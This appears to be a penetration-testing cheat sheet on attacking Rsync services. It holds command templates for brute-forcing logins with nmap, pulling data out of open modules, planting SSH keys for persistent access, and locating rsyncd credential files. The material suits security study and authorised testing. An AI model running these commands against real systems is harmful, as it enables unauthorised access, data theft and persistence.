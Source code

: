 ```yaml
---
id: Rsync
aliases: []
tags:
  - Networking/Services/Rsync/Exploitation
links: "[[Services]]"
---
```


<!-- Exploitation {{{-->
# Exploitation

<!-- Outdated Version {{{-->
## Outdated Version

Old versions of Rsync may contain vulnerabilities that can be exploited

> [!tip]
>
> [[Enumeration#Nmap|Identify outdated Rsync version]]
___

<!-- }}} -->

<!-- Misconfigured Modules {{{-->
## Misconfigured Modules

[[Enumeration#Modules|Modules]] without proper authentication
can be accessed by unauthorized users
to read, modify or delete sensitive data

> [!tip]
>
> If a module is writeable, a malicious file can be uploaded,
> potentially leading to remote command execution
> or pivoting into the network

___

<!-- }}} -->

<!-- Brute Force {{{-->
## Brute Force

Brute force Rsync login with [[Nmap]]

> [!example]-
>
> ```sh
> nmap -sV \
>   --script rsync-brute
>   --script-args userdb=/var/<usernames.txt>,passdb=/var/<passwords.txt> \
>   -p 873 \
>   <target> \
>   -oA rsync-script-brute
> ```

___

<!-- }}} -->

<!-- }}} -->

<!-- Post-Exploitation {{{-->
# Post-Exploitation

<!-- Data Exfiltration {{{-->
## Data Exfiltration

Data Exfiltration

```sh
rsync -avz target_host::module_name /local/directory/
```

<!-- }}} -->

<!-- Presistence {{{-->
## Presistence

Gain Persistent Access by [[Usage#File Operations|Copying]]
[[SSH/General|SSH keys]]

```sh
rsync -av </home/user/.ssh/> rsync://<user>@<target>/<home/user/.ssh>
```

___

<!-- }}} -->

<!-- Config File {{{-->
## Config File

Locate the Rsyncd [[General#Configuration|configuration file]]

```sh
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

> [!tip]
>
> In `rsyncd.conf` the `secrets` file parameter might point to a file
> containing usernames and passwords for rsyncd authentication

___

<!-- }}} -->

<!-- }}} -->
